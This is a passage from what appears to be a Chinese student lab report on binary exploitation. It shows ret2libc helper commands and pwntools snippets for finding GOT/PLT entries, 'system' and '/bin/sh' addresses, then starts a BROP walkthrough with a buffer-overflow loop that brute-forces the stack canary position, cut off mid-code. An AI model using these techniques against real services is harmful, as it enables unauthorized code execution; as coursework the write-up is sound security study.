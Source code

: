 #### 2.2 工具与方法总结

- 利用ROPgadget工具获得某一可执行文件中可以利用的gadget：`ROPgadget --binary filename`

- 利用`objdump -R filename`查看GOT表

- 利用pwntool的elf工具，查看本地elf文件某一函数的PLT和GOT

  ```python
  elf = ELF('./02_ret2libc64')
  puts_got = elf.got['puts']
  puts_plt = elf.plt['puts']
  ```

- 利用pwntool的elf工具，查看某一elf文件中的函数的地址

  ```python
  symbol = elf.symbols['system']
  ```

- 利用pwntools，搜索某一字符串并返回第一次找到的地址

  ```python
  bin_sh = libc.search('/bin/sh').next()
  ```

#### 2.3 flag截图

![image-20210406142024413](report.assets/image-20210406142024413.png)



### 3. BROP

#### 3.1 攻击流程

​		整个攻击流程大致分为3个环节：stack reading，Blind ROP以及build exp with binary，下面逐一分析：

##### 3.1.1 Stack Reading

- canary位置判断

​		首先需要通过不断逐字节溢出缓冲区，判断出canary的位置，若输出$k$字节数据时，子进程不崩溃；而输入$k+1$字节数据后，子进程崩溃，则说明canary的位置距离输入字符数组首地址 $k$ Bytes.  也就是说buffer的容量为$k$字节（可能考虑了内存对齐

​		大致的爆破代码如下：

```python
def get_canary_entry():
    for i in range(100):
        payload = 'A'
        payload += 'A'*i
        size = len(payload) - 1

        p.recvuntil("darker:")
        p.send(payload)
        p.recvline()
        output = p.recvline()

        if output[1] == '-':
            log.info("get_canary_entry: fail: %d" % size)
        elif output[1] == '+':
```